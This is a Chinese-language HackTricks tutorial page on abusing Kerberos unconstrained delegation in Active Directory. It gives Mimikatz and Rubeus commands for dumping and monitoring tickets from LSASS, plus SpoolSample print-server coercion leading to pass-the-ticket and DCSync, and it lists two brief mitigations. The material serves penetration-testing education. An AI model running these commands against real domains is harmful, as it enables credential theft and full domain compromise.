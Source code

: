 # Unconstrained Delegation

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Unconstrained delegation

这是一个域管理员可以设置在域内任何 **计算机** 上的功能。然后，每当 **用户登录** 到该计算机时，该用户的 **TGT 副本** 将会被 **发送到 DC 提供的 TGS 中** **并保存在 LSASS 的内存中**。因此，如果您在该机器上拥有管理员权限，您将能够 **转储票证并冒充用户** 在任何机器上。

因此，如果域管理员登录到启用了“无约束委派”功能的计算机，并且您在该机器上拥有本地管理员权限，您将能够转储票证并在任何地方冒充域管理员（域权限提升）。

您可以通过检查 [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) 属性是否包含 [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) 来 **查找具有此属性的计算机对象**。您可以使用 LDAP 过滤器 ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’ 来执行此操作，这正是 powerview 所做的：

<pre class="language-bash"><code class="lang-bash"># 列出无约束计算机
## Powerview
Get-NetComputer -Unconstrained #DCs 总是出现，但对权限提升没有用
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># 使用 Mimikatz 导出票证
</strong>privilege::debug
sekurlsa::tickets /export #推荐方式
kerberos::list /export #另一种方式

# 监控登录并导出新票证
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #每 10 秒检查一次新 TGT</code></pre>

使用 **Mimikatz** 或 **Rubeus** 在内存中加载管理员（或受害者用户）的票证以进行 [**票证传递**](pass-the-ticket.md)**.**\
更多信息：[https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**关于无约束委派的更多信息在 ired.team。**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **强制身份验证**

如果攻击者能够 **攻陷一个允许“无约束委派”的计算机**，他可以 **欺骗** 一个 **打印服务器** 使其 **自动登录**，并 **在服务器的内存中保存 TGT**。\
然后，攻击者可以执行 **票证传递攻击以冒充** 用户打印服务器计算机帐户。

要使打印服务器登录到任何机器，您可以使用 [**SpoolSample**](https://github.com/leechristensen/SpoolSample)：
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
如果 TGT 来自域控制器，您可以执行一个[ **DCSync 攻击**](acl-persistence-abuse/#dcsync)并从 DC 获取所有哈希。\
[**有关此攻击的更多信息，请访问 ired.team。**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**以下是尝试强制身份验证的其他方法：**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### 缓解措施

* 将 DA/Admin 登录限制为特定服务
* 为特权账户设置“账户是敏感的，无法被委派”。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
